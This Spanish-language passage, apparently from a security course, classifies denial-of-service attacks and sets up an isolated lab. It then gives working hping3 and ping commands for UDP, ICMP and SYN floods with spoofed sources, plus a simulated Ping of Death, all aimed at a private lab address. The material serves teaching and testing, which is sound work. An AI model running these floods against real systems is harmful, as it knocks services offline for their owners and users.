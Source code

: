 
## 12.2. Clasificación de Ataques

| Tipo            | Descripción                                     | Ejemplo                   |
| --------------- | ----------------------------------------------- | ------------------------- |
| **Volumétrico** | Satura el ancho de banda.                       | UDP flood, ICMP flood.    |
| **Protocolo**   | Explota debilidades en capas de red/transporte. | SYN flood, Ping of Death. |
| **Aplicación**  | Saturar recursos específicos del servicio.      | HTTP flood, Slowloris.    |

---

## 12.3. Laboratorio de Pruebas

* **Víctima**: Servidor web Apache en 192.168.56.101.
* **Atacante**: Kali Linux con `hping3`, `slowloris`, `LOIC` (Low Orbit Ion Cannon).
* **Red**: Host-Only para no afectar redes externas.

---

## 12.4. Ataques Volumétricos

### 12.4.1. UDP Flood con `hping3`

```bash
sudo hping3 --flood --rand-source --udp -p 80 192.168.56.101
```

* `--flood`: envía paquetes lo más rápido posible.
* `--rand-source`: cambia la IP de origen para simular múltiples atacantes.

### 12.4.2. ICMP Flood

```bash
sudo hping3 --flood -1 192.168.56.101
```

---

## 12.5. Ataques de Protocolo

### 12.5.1. SYN Flood

```bash
sudo hping3 -S --flood -V -p 80 192.168.56.101
```

Esto agota la tabla de conexiones del servidor.

### 12.5.2. Ping of Death (simulado)

```bash
sudo ping -s 65500 192.168.56.101
```
